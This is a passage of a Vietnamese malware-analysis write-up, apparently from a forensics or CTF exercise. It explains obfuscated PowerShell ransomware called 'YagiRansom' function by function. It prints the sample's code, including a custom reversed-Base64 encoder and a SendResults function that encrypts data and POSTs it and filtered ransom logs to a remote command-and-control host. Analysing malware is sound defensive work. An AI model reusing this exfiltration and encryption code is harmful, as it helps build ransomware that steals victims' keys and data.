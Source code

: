 Tạo một đối tượng mã hóa `$encryptor` từ đối tượng `AES` và mã hóa `byte` văn bản hoặc `byte` từ tệp.
Thêm `IV` *(Initialization Vector)* vào đầu `byte` đã mã hóa để sử dụng cho việc giải mã sau này.
Trả về chuỗi mã hóa `base64` nếu văn bản được cung cấp, hoặc ghi tệp mã hóa vào đường dẫn mới nếu một tệp được cung cấp.

Tại khối 
```python=
End {
      $m95I.Dispose()
      $n9ibn.Dispose()}
```
Giải phóng các tài nguyên `dispose` đã được sử dụng.

Mô tả chung 
```
Hàm cho phép mã hóa văn bản hoặc tệp bằng thuật toán AES với một khóa đã cho. Nó sử dụng SHA256 để tạo ra khóa cho quá trình mã hóa và hỗ trợ cả hai chế độ đầu vào.
```

2. `function R64Encoder` mã hóa đặc biệt của `base64`
```python=
function R64Encoder { 
   if ($args[0] -eq "-t") { $VaFQ = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($args[1])) }
   if ($args[0] -eq "-f") { $VaFQ = [Convert]::ToBase64String([IO.File]::ReadAllBytes($args[1])) }
   $VaFQ = $VaFQ.Split("=")[0] ; $VaFQ = $VaFQ.Replace("C", "-") ; $VaFQ = $VaFQ.Replace("E", "_")
   $8bKW = $VaFQ.ToCharArray() ; [array]::Reverse($8bKW) ; $R64Base = -join $8bKW ; return $R64Base }
```
Hàm nhận đầu vào là biến `$args`
* Nếu tham số đầu vào đầu tiên là `-t` thì hàm chuyển đổi văn bản thành một mảng `byte` sử dụng mã hóa `UTF-8` . Sau đó mã hóa mảng `byte` này thành chuỗi `base64` và lưu kết quả vào biến `$VaFQ`
* Nếu tham số đầu vào đầu tiên là `-f` thì hàm đọc tất cả `byte` từ tệp và mã hóa mảng `byte` này thành chuỗi `base64` và lưu kết quả vào biến `$VaFQ`

Xử lý kết quả sau khi mã hóa `base64`
* Chia chuỗi tại dấu `"="` (nếu có) và lấy phần trước dấu `"="` => loại bỏ padding trong `base64`
* Thay thế tất cả ký tự `"C"` bằng dấu `"-"`
* Thay thế tất cả ký tự `"E"` bằng dấu `"_"`
* Chuyển đổi chuỗi kết quả thành mảng ký tự `ToCharArray()` và lưu vào `$8bKW`
* Đảo ngược mảng hiện tại, nối thành một chuỗi và lưu vào `$R64Base` 
* Trả về kết quả cuối cùng.

Mô tả chung
```
Hàm sẽ chuyển chuỗi hoặc tệp thành Base64 => loại bỏ padding => thay thế kí tự => đảo ngược kết quả.
```

3. `function SendResults` gửi đi `data` và `logs` thông tin của tiến trình hoạt động.
```python=
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
* Tại đây thì hàm sẽ mã hóa theo thuật toán `AES` chuỗi `$WiETm` theo `key` là biến `$Uz19o` và lưu vào biến `$cvf` . Cụ thể hơn các biến này mình sẽ nói sau :v.
* Tiếp theo hàm sẽ gọi tới hàm `function R64Encoder` để mã hóa chuỗi `$cvf` từ kết quả trước đó (ở đây `option` là `-t` tức là text như đã phân tích ở `function R64Encoder` nè) và sau đó lưu vào biến `$cVl`
* Tiếp theo đó là lưu các biến `$cVl` , `$OgE` , `$zVSza` và `$7VEq` vào biến `$2YngY` theo thứ tự và `format` là `$2YngY = "> $cVl > $OgE > $zVSza > $7VEq"`